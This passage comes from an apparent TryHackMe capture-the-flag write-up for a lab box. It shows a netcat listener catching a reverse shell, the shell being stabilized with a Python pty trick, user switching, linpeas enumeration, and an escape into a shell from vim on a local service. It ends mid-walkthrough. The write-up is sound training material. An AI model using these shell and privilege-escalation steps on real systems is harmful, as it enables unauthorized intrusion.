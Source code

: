 ```
send the payload 

![image](https://user-images.githubusercontent.com/87468669/201514138-1f9e112e-20f9-43ab-99af-0d94c7cd93e7.png)

check our ncat listener we got a shell

![image](https://user-images.githubusercontent.com/87468669/201514161-04c01c58-5e70-421a-b507-9426bc2f7eb8.png)

now let's stabilize the shell

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/Warrior]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.0.73] from (UNKNOWN) [10.10.37.149] 45542
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@incognito:/var/www/html/dev$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                       
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/Warrior]
└─$ stty raw -echo;fg                              
[1]  + continued  nc -lnvp 1337
                               export TERM=xterm
www-data@incognito:/var/www/html/dev$ stty rows 40 cols 160
www-data@incognito:/var/www/html/dev$ 

```

we got a stable shell, let's escalate privs... first switch user to ArthurMorgan from www-data

![image](https://user-images.githubusercontent.com/87468669/201514313-12c50506-5cd5-4374-be29-31e5f3b3c79d.png)

let's run linpeas

![image](https://user-images.githubusercontent.com/87468669/201514544-a372b796-7f5c-4591-a906-4bfa0db10ab1.png)

we can see the active ports... let's use ncat to check what runs on the port 4545 

![image](https://user-images.githubusercontent.com/87468669/201515023-7dec0e8c-55cc-45ef-81b2-be77a6023f56.png)

It gaves us options to choose, after trying all the options, figured option 4 opens a vim editor, let's try exploit vim to gain shell...

```
vim payload
:set shell=/bin.bash
:shell
```

![image](https://user-images.githubusercontent.com/87468669/201515241-49da8154-a7b9-4b10-938d-289502689b4f.png)

let's stabilize the shell

![image](https://user-images.githubusercontent.com/87468669/201515917-b700b680-86be-4d45-870d-662eedc1b0cf.png)

now let's escalate privs to root... running linpeas again 
```